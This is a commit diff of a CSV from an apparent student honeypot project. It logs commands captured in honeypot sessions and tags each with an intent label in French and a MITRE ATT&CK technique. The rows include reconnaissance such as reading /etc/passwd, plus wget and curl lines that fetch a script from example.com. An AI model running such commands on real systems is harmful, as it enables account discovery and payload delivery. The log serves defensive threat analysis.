

Before and after one commit to 4lae-codes/projet-honeypot-files, a CSV file: analyse/preuves/commandes-classees-reel.csv, drawn as a sheet.

```diff
--- a/analyse/preuves/commandes-classees-reel.csv
+++ b/analyse/preuves/commandes-classees-reel.csv
@@ -1,5 +1,10 @@
 session,src_ip,timestamp,input,intention,technique
+276abbb303b7,172.20.10.5,2026-11-24 16:51:59.273464+00:00,uname -a,Reconnaissance système,T1082
+276abbb303b7,172.20.10.5,2026-11-24 16:52:12.005913+00:00,cat /etc/passwd,Découverte de comptes,T1087.001
+276abbb303b7,172.20.10.5,2026-11-24 16:52:32.173668+00:00,ps aux,Découverte de processus,T1057
+276abbb303b7,172.20.10.5,2026-11-24 16:52:57.873459+00:00,wget http://example.com/test.sh,Téléchargement de charge,T1105
+276abbb303b7,172.20.10.5,2026-11-24 16:53:15.898873+00:00,curl  http://example.com/test.sh,Téléchargement de charge,T1105
+6fb29b608a96,172.20.10.5,2026-11-24 17:07:02.634218+00:00,whoami,Découverte utilisateur,T1033
 d7d772f6dbe3,192.168.56.1,2026-11-11 23:34:32.662189+00:00,uname -a,Reconnaissance système,T1082
 d7d772f6dbe3,192.168.56.1,2026-11-11 23:34:41.681012+00:00,cat /etc/passwd,Découverte de comptes,T1087.001
-30273a7336e4,192.168.56.1,2026-11-11 23:49:14.660981+00:00,ssh -p 22022 alae@192.168.56.102,Exécution de script,T1059.004
 e5fab6f430ff,192.168.56.1,2026-11-12 00:16:12.052119+00:00,uname -a,Reconnaissance système,T1082
```
Also changed, not shown: analyse/preuves/profil-ip-reel.csv, analyse/preuves/sondes-nmap-reel.csv, 7 other files.
